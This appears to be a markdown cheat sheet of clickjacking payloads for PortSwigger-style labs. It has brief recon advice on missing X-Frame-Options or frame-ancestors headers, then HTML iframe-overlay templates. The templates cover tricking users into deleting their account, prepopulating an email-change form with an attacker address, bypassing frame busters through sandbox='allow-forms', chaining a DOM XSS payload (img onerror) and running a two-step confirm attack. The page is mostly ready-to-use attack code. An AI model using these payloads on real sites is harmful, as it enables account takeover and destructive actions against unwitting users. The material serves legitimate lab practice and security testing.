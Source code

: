 # Clickjacking

## Summary
* [Recon for Clickjacking](#recon)
* [Portswigger Labs Cheat Sheet / Payloads](#cheat-sheet)

## Recon

* Identify if the application’s requests contain the X-Frame-Options / Content-Security-Policy (frame-ancestors) in the immediate response.

* If the responses do not contain these headers, then the application is most likely vulnerable to clickjacking.

---
---

## Cheat Sheet

### Basic Clickjacking:

* Use a basic clickjacking payload, that loads the vulnerable application’s page in an \<iframe\>, which contains a button to delete the user’s account.  We can use this method to trick a user into clicking on the “Delete account” button on the targeted application.  (Example: height: 700px , opacity: 0.1)

```html
<style>
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="$url"></iframe>
```

### Prepopulate Form - Clickjacking

* Use a clickjacking payload, which will prepopulate a \<form\> parameter’s value, using it as a query parameter in a GET request.  Include this targeted web page in an \<iframe\>.  Since the form will be prepopulated, we only need to induce the user into clicking on the region that will submit the POST request.

```html
<style>
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="$url?email=hacker@attacker-website.com"></iframe>
```

### Prepopulate Form + Frame Buster Script Bypass

* Use a clickjacking payload, which will prepopulate a \<form\> parameter’s value, using a query parameter in a GET request.  Include this targeted web page in an \<iframe\> with the attribute ‘sandbox=“allow-forms”’, this will neutralize the frame buster script .  Since the form will be prepopulated, we only need to induce the user into clicking on the region that will submit the POST request.

```html
<style>
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe sandbox="allow-forms"
src="$url?email=hacker@attacker-website.com"></iframe>
```

### Prepopulate Form + DOM XSS Exploit

* Use a clickjacking payload, which will prepopulate a <form> parameter’s value, using a query parameter in a GET request. One of these parameters will include a XSS payload, as a client-side script on the application is using the parameter’s value in a dangerous Sink.  Combining both clickjacking and XSS leads to a higher impact.  Without the clickjacking vulnerability, the XSS would be more difficult to pull off
    * Include this targeted web page in an \<iframe\>.  Since the form will be prepopulated, we only need to induce the user into clicking on the region that will submit the POST request.

```html
<style>
	iframe {
		position:relative;
		width:$width_value;
		height: $height_value;
		opacity: $opacity;
		z-index: 2;
	}
	div {
		position:absolute;
		top:$top_value;
		left:$side_value;
		z-index: 1;
	}
</style>
<div>Test me</div>
<iframe
src="$url?name=<img src=1 onerror=print()>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>
```

### 2-Step Clickjacking Attack

* Use a basic clickjacking payload, that loads the vulnerable application’s page in an \<iframe\>, which contains a button to delete the user’s account.  We can use this method to trick a user into clicking on the “Delete account” button, then confirm the action by clicking on another button on the targeted application.

```html
<style>
	iframe {
		position:relative;
		width:$width_value;
		height: $height_value;
		opacity: $opacity;
		z-index: 2;
	}
   .firstClick, .secondClick {
		position:absolute;
		top:$top_value1;
		left:$side_value1;
		z-index: 1;
	}
   .secondClick {
		top:$top_value2;
		left:$side_value2;
	}
</style>
<div class="firstClick">Test me first</div>
<div class="secondClick">Test me next</div>
<iframe src="$url"></iframe>
```
